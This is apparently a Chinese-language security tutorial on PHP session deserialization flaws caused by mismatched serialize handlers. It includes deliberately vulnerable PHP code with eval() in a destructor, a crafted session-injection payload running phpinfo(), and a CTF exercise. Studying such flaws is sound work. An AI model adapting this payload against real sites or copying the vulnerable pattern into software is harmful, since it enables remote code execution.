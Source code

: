 ### PHP session反序列化漏洞

当网站序列化并存储Session，与反序列化并读取Session的方式不同，就肯导致session反序列化漏洞的产生。

```php
/*session页面save.php*/

<?php
ini_set('session.serialize_handler','php_serialize');
session_start();
$_SESSION['ben'] = $_GET['a'];

/*漏洞页面vul.php*/

<?php 
ini_set('session.serialize_handler','php');
session_start();
class D{
    var $a;
    function __destruct(){
        eval($this->a);
    }
}

在save.php页面提交?a=|O:1:"D":1:{s:1:"a";s:10:"phpinfo();";}

save.php中使用php_serialize格式保存:
a:1:{s:3:"ben";s:39:"|O:1:"D":1:
{s:1:"a";s:10:"phpinfo();";}";}

而在vul.php中是以php的格式保存的：
a:1:{s:3:"ben";s:39:"|O:1:"D":1:{s:1:"a";s:10:"phpinfo();";}";}

其中a:1:{s:3"ben";s:39:"}为键名 + | + O:1:"D":1:{s:1:"a";s:10:"phpinfo();";}";}

以php格式读取时会把O:1:"D":1:{s:1:"a";s:10:"phpinfo();";}";}
进行反序列化unserialize()，而后面多出来的";}会被注释
```

### 例题

```php
/*index.php*/
<?php
/*hint.php*/
session_start();
class Flag{
    public $name;
    public $her;
    function __wakeup(){
        $this->her=md5(rand(1, 10000));
        if ($this->name===$this->her){
            include('flag.php');
            echo $flag;
        }
    }
}

/*hint.php*/
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['a'] = $_GET['a'];
```
